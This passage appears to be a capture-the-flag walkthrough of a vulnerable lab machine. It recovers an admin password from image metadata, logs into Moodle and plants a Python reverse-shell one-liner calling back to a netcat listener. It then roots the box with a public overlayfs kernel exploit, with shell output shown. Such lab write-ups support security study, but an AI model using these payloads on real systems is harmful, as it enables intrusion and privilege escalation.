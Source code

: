 OK so we have an image, let's wget it: `wget http://severnaya-station.com/dir007key/for-007.jpg`
Let's open this up and try to figure out the hidden message. Low hanging fruits first. strings that :D ... We can see a string at the top. Let's run exiftool for a better view. In the Image Description field there is an encoded string which seems to be base64 `eFdpbnRlcjE5OTV4IQ==`
Let's decode this: `echo 'eFdpbnRlcjE5OTV4IQ==' | base64 -d`
and we get this: `xWinter1995x!`
This must be the password he wanted to give to us and couldn't through the webapps. That means we have the admin's password? Let's try to login into moodle with these credentials... And YES with `Admin` & `xWinter1995x!` we manage to get access to the moodle site
Finally managed to get into the intro lesson just to find out there's nothing in the intro lesson -_-.. What a disappointment ... Anyways let's keep moving...

Let's try to upload something that will give us a reverse shell to the webserver.
Searching for spell as the hint indicates gives us the setting where we can run python code which means we can get our revshell through there
Opening up a netcat listener here `nc -nlvp 4444` and running a payload like `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{ip}",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'` should pop me open a nice shell to work with.
Now we just need to trigget it...
For some reason it won't load so i'll have to go and do it manually by inspecting the element and try to figure out which is the correct url to make a new blog post and enable spell check. `http://severnaya-station.com/gnocertdir/blog/edit.php?action=add` This seems to be the right url to add a blog post so i'll try to open spell check through here..


And in fact we get the connection. Now we are www-data. We could start enumerating the machine or try to priv esc horizontally with known passwords. Although the game takes us in it's own direction. By checking the kernel version we can see that it's outdated and vulnerable to the overlayfs kernel exploit (Not the new one [I got stuck trying to make the new one work for at least an hour ... lmao]) The correct overlayfs exploit for this to work is the one from: https://www.exploit-db.com/exploits/37292
```
www-data@ubuntu:/tmp$ uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```
So we copy the code and we need to make one small adjustment.. Remember earlier when the admin said to Boris that he removed gcc? well the compiler they are using now is the cc so we need to change that inside the exploit as well. The exploit uses gcc to compile a shared library while it's running. We can use vim and search for gcc and replace it with cc. There's just one instance so that's easy for us. After compiling successfully (`cc exploit.c -o exploit`) the exploit we can run it and get root
```
www-data@ubuntu:/tmp$ ./a.out 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
root
# 
```
